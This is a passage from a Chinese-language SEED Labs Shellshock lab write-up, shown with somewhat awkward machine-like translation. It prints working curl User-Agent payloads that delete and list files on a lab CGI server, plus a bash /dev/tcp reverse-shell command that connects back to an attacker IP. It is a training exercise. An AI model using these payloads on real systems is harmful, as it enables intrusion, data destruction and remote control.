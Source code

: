 ![image-20220614213358586](Shellshock/image-20220614213358586.png)

- 任务3.D: 让服务器删除您刚刚在/tmp文件夹中创建的文件。

```bash
curl -A "() { : ;}; echo ; /bin/rm /tmp/skpriminfile " http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

curl -A "() { :;}; echo Content_type: text/plain; echo; /bin/ls -l /tmp" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![image-20220614213458372](Shellshock/image-20220614213458372.png)

### 问题

 请回答以下问题：

问题1：您能否从服务器上窃取影子文件的内容？为什么或为什么不呢？在任务3.B中获得的信息  应该会给你一个线索。

问题2：HTTP GET请求通常会在URL中附加数据，然后是在？记号这可能是我们可以用来发动攻击的  另一种方法。在下面的例子中，我们在URL中附加了一些数据，我们发现这些数据被用于设置以下环境变量：

```bash
$ curl "http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?AAAAA"
...
UERY_STRING=AAAAA
...
```

我们能用这种方法来发动贝壳冲击攻击吗？请对您进行实验，并根据实验结果得出结论。



## 任务4：通过ShellShock攻击获得反向外壳

ShellShock漏洞允许攻击在目标机器上运行任意命令。在真正的攻击中，攻击者通常会选择运行一个shell命令，而不是硬编码攻击中的命令，这样只要shell程序还存在，他们就可以使用这个shell来运  行其他命令。为了实现这一目标，攻击者需要运行一个反向壳层。

反向壳是在机器上启动的壳过程，它的输入和输出由远程计算机控制。基本上，shell会在受害者的机器上运行，但它会从攻击者的机器上接收输入，并在攻击者的机器上打印其输出。反向壳牌为攻击者提供了一种方便的方式来在被破坏的机器上运行命令。关于如何创建一个反向外壳的详细说明可以在种子署的书中找到。我们还在第4节中总结了这个解释。在这个任务中，你需要演示如何使用贝壳  冲击攻击从受害者那里获得一个反向贝壳。

构建指令的部分请参考：https://www.cnblogs.com/skprimin/p/16058174.html#_label3_1_0_1

```bash
curl -A "() { echo 1; };echo;/bin/bash -i > /dev/tcp/192.168.136.143/9090 0>&1 2>&1" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```
